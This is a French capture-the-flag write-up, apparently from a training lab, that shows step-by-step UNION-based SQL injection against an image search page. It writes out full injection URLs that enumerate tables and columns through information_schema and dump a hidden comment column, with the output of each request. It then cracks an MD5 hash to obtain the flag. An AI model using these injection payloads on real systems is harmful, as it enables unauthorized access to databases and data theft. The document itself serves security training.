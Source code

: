 Comme pour la faille member, on va faire des injections SQL:


=>une requête avec information_schema.tables pour énumérer les tables de la base de données active:
http://192.168.1.33/?page=searchimg&id=5%20UNION%20SELECT%201,table_name%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--%20&Submit=Submit#

ID: 5 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema=database() --  
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema=database() --  
Title: list_images
Url : 1


=>Vous avez ensuite ciblé une table spécifique (list_images) pour découvrir ses colonnes à l'aide de information_schema.columns:

http://192.168.1.33/index.php?page=searchimg&id=5%20UNION%20SELECT%20column_name,%20table_name%20FROM%20information_schema.columns%20--%20&Submit=Submit#

ID: 5 UNION SELECT column_name, table_name FROM information_schema.columns --  
Title: list_images
Url : id

ID: 5 UNION SELECT column_name, table_name FROM information_schema.columns --  
Title: list_images
Url : url

ID: 5 UNION SELECT column_name, table_name FROM information_schema.columns --  
Title: list_images
Url : title

ID: 5 UNION SELECT column_name, table_name FROM information_schema.columns --  
Title: list_images
Url : comment

=>une requête avec information_schema.tables pour énumérer les tables de la base de données active:
http://192.168.1.33/?page=searchimg&id=5%20UNION%20SELECT%201,table_name%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--%20&Submit=Submit#

ID: 5 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema=database() --  
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema=database() --  
Title: list_images
Url : 1

=>Je veux afficher le contenu de la colonne comment (la seule qui ne s'affiche pas de base)
http://192.168.1.33/?page=searchimg&id=5%20UNION%20SELECT%20id,%20comment%20FROM%20list_images%20WHERE%20id=5%20--%20&Submit=Submit#

ID: 5 UNION SELECT id, comment FROM list_images WHERE id=5 --  
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT id, comment FROM list_images WHERE id=5 --  
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5

On decrypte: https://hashes.com/en/decrypt/hash
1928e8083cf461a51303633093573c46:albatroz

On encrypte en sha256
https://www.sha256.fr/
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188